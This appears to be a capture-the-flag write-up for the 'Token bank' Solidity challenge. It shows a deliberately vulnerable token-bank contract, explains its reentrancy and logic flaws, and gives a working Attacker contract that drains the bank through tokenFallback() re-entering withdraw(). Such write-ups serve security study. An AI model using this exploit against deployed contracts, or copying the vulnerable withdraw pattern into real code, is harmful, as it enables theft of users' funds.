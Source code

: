 # Token bank

```
pragma solidity ^0.4.21;

interface ITokenReceiver {
  function tokenFallback(address from, uint256 value, bytes data) external;
}

contract SimpleERC223Token {
  // Track how many tokens are owned by each address.
  mapping (address => uint256) public balanceOf;

  string public name = "Simple ERC223 Token";
  string public symbol = "SET";
  uint8 public decimals = 18;

  uint256 public totalSupply = 1000000 * (uint256(10) ** decimals);

  event Transfer(address indexed from, address indexed to, uint256 value);

  function SimpleERC223Token() public {
    balanceOf[msg.sender] = totalSupply;
    emit Transfer(address(0), msg.sender, totalSupply);
  }

  function isContract(address _addr) private view returns (bool is_contract) {
    uint length;
    assembly {
      //retrieve the size of the code on target address, this needs assembly
      length := extcodesize(_addr)
    }
    return length > 0;
  }

  function transfer(address to, uint256 value) public returns (bool success) {
    bytes memory empty;
    return transfer(to, value, empty);
  }

  function transfer(address to, uint256 value, bytes data) public returns (bool) {
    require(balanceOf[msg.sender] >= value);

    balanceOf[msg.sender] -= value;
    balanceOf[to] += value;
    emit Transfer(msg.sender, to, value);

    if (isContract(to)) {
      ITokenReceiver(to).tokenFallback(msg.sender, value, data);
    }
    return true;
  }

  event Approval(address indexed owner, address indexed spender, uint256 value);

  mapping(address => mapping(address => uint256)) public allowance;

  function approve(address spender, uint256 value)
    public
    returns (bool success)
  {
    allowance[msg.sender][spender] = value;
    emit Approval(msg.sender, spender, value);
    return true;
  }

  function transferFrom(address from, address to, uint256 value)
    public
    returns (bool success)
  {
    require(value <= balanceOf[from]);
    require(value <= allowance[from][msg.sender]);

    balanceOf[from] -= value;
    balanceOf[to] += value;
    allowance[from][msg.sender] -= value;
    emit Transfer(from, to, value);
    return true;
  }
}

contract TokenBankChallenge {
  SimpleERC223Token public token;
  mapping(address => uint256) public balanceOf;

  function TokenBankChallenge(address player) public {
    token = new SimpleERC223Token();

    // Divide up the 1,000,000 tokens, which are all initially assigned to
    // the token contract's creator (this contract).
    balanceOf[msg.sender] = 500000 * 10**18;  // half for me
    balanceOf[player] = 500000 * 10**18;      // half for you
  }

  function isComplete() public view returns (bool) {
    return token.balanceOf(this) == 0;
  }

  function tokenFallback(address from, uint256 value, bytes) public {
    require(msg.sender == address(token));
    require(balanceOf[from] + value >= balanceOf[from]);

    balanceOf[from] += value;
  }

  function withdraw(uint256 amount) public {
    require(balanceOf[msg.sender] >= amount);

    require(token.transfer(msg.sender, amount));
    balanceOf[msg.sender] -= amount;
  }
}
```

## Goal

Withrdaw all of the SET tokens that TokenBankChallenge contract has in possession

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

There are two issues with the TokenBankChallenge, first it is re-entrant (```withdraw()``` function) and second there is flawed business logic in handling the tokens that the bank possesses.

To exploit the contract we need to:

1. create Attacker contract, this contract will be inheriting ITokenReceiver interface and must have tokenFallback() function implemented, create instances from the SimpleERC223Token contract and TokenBankChallenge contract inside the Attacker contract. This contract will:
  <ul>
  <li>have count storage variable to track how many times tokenFallback() is called</li>
  <li>have external transfer() function, we will call this function to transfer SET tokens from the attacker to the TokenBankChallenge contract, inside it we will make a call to the SimpleERC223Token transfer() function</li>
  <li>tokenFallback() function implemented, this is the function were we will cause the reentrancy to happen</li>
  <li>withdraw() external function, this is the function that will initiate the reentrant call</li>
  </ul>
2. withdraw all of the tokens that our account (player) has in possesion, calling the withdraw function from the TokenBankChallenge contract
3. transfer all of the tokens from the our account (player) to the Attacker contract, using the transfer() function from SimpleERC223Token
4. call the transfer() function from the Attacker contract and transfer all of the SET tokens from the Attacker to the TokenBankChallenge contract, amount should be 500000000000000000000000
5. call the withdraw() function from Attacker contract

## Attacker contract code

```
contract Attacker is ITokenReceiver {
  SimpleERC223Token private token;
  TokenBankChallenge private bank;
  uint256 public count;

  function Hack(address _token, address _bank) public {
    token = SimpleERC223Token(_token);
    bank = TokenBankChallenge(_bank);
  }

  function transfer(address to, uint256 value) external {
    token.transfer(to, value, "");
  }

  function tokenFallback(address from, uint256 value, bytes data) external {
    count++;
    if(count == 2) {
      bank.withdraw(500000000000000000000000);
    }
  }

  function withdraw(uint256 amount) external {
    bank.withdraw(amount);
  }
}
```